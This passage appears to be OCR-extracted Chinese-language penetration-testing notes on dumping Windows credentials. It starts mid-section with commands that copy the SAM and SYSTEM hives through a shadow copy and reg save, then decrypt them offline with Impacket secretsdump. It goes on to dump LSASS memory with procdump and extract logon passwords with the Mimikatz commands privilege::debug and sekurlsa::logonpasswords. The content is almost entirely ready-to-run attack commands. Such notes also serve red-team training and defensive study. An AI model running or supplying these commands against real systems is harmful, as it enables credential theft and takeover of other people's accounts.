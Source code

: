             PowerShell
            
            ```
            # 1. 创建 C: 盘的卷影副本
            wmic shadowcopy call create Volume='C:\'
            
            # 2. 从卷影副本中复制 SAM 和 SYSTEM 文件
            copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\temp\sam
            copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\temp\system
            ```
            
        - **注册表备份 (Registry Hives)**: 使用 `reg.exe` 命令直接从注册表中保存 SAM 和 SYSTEM hive。
            
            Bash
            
            ```
            reg save HKLM\sam C:\temp\sam.save
            reg save HKLM\system C:\temp\system.save
            ```
            
    - **离线解密 (Offline Decryption)**: 使用 Impacket 工具集的 `secretsdump.py` 来解密导出的文件。
        
        Bash
        
        ```
        python3 secretsdump.py -sam sam.save -system system.save LOCAL
        ```
        
- **本地安全认证子系统服务 (Local Security Authority Subsystem Service, LSASS)**：
    
    - **基本原理 (Fundamentals)**: `lsass.exe` 是 Windows 中负责安全策略和用户认证的核心进程。它在内存中缓存了已登录用户（包括本地和域用户）的凭证，如明文密码、NTLM 哈希和 Kerberos 票据。转储 LSASS 进程的内存是获取这些凭证的常用方法（T1003.001）。
    - **转储 LSASS 内存 (Dumping LSASS Memory)**: 需要本地管理员权限。
        - **任务管理器 (Task Manager)**: 在“详细信息”选项卡中右键单击 `lsass.exe`，选择“创建转储文件”。
        - **ProcDump**: 使用 Sysinternals 套件中的 `procdump.exe` 工具。
            
            Bash
            
            ```
            procdump.exe -accepteula -ma lsass.exe lsass.dmp
            ```
            
    - **使用 Mimikatz 提取凭证 (Extracting Credentials with Mimikatz)**:
        - **直接从内存提取**:
            
            PowerShell
            
            ```
            # 提升权限以调试进程
            privilege::debug
            # 从 LSASS 内存中转储所有登录凭证
            sekurlsa::logonpasswords
            ```
            